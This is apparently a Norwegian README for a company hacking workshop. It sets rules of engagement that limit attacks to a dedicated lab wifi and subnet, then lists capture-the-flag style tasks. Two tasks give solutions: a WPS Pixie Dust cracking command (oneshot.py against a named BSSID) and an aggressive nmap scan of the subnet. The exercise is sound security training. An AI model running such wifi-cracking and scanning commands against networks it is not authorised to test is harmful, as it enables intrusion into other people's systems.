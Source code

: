 # Hackerworkshop Bekk Fagdag 21.10.2022

## Engasjementsregler

- Det er bare tillatt å angripe wifi-nettverket kalt HackMe og enheter tilknyttet ruterens lokale nettverk på `192.168.38.0/24`.

- Tjenestenektangrep mot ruteren eller andre enheter på nettverket er ikke tillatt da det vil ødelegge for andre.

- Siden alle er koblet på samme nettverk er det lurt å unngå permanente endringer av filer, rettigheter og lignende dersom du skaffer deg tilgang til en server.

## Oppgaver

### Bryt deg inn på wifi-nettverket HackMe

<details><summary>Løsning</summary>

```
sudo python oneshot.py -i wlan0 --bssid 34:21:09:24:10:D8 --pixie-dust
```

</details>

### Kartlegg hva som fins på det lokale nettverket

<details><summary>Løsning</summary>

```
sudo nmap -A 192.168.38.0/24
```

</details>

### Finn ut så mye som mulig om serveren på nettverket

### Skaff deg tilgang til serveren

### Finn et flagg på serveren

### Skaff deg tilgang til databasen

### Finn et flagg i databasen
